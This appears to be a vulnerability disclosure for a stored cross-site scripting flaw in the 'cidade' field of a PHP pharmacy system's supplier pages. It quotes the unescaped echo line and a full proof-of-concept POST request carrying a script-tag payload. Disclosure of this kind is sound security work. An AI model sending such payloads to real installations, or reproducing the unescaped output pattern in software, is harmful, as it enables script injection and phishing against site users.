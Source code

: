 # farmacia-in-php has Cross Site Scripting vulnerability in editar-fornecedor.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editar-fornecedor.php and cidade parameter.

## describe

The vulnerability of cross-site scripting attack in the system is editar-fornecedor.php file. The parameter that can be controlled is: cidade.Exploit vulnerabilities can be phishing

**Code analysis**    

echo cidade in no filter in editar-fornecedor.php

```
                <input type="text " required type="text" class="form-control" name="cidade" placeholder="Digite a cidade" value="<?php echo $fornecedor['cidade'];?>">

```

![image-20241127230312506](https://github.com/user-attachments/assets/fb2e939f-f1bc-433a-a7ad-d4be86adb857)

## POC

```
POST /adicionar-fornecedor.php HTTP/1.1
Host: farmacia-master
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------325896903226182786013199620887
Content-Length: 1455
Origin: http://farmacia-master
Connection: close
Referer: http://farmacia-master/adicionar-fornecedor.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="nome"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="cpf"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="inscricao"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="endereco"

11
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="numero"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="bairro"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="cidade"

"><script>alert('xss1');</script>
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="cep"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="uf"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="telefone"

1
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="email"

1@outlook.com
-----------------------------325896903226182786013199620887
Content-Disposition: form-data; name="acao"


-----------------------------325896903226182786013199620887--

```

![image-20241127152349559](https://github.com/user-attachments/assets/a4e52714-f774-44f8-9c32-bff2788c7af2)

The browser accesses this URL

```
http://farmacia/editar-fornecedor.php?id=8
```

**Result**

![image-20241127152308220](https://github.com/user-attachments/assets/d7200dba-f808-4dce-bb7b-b25914b03a1d)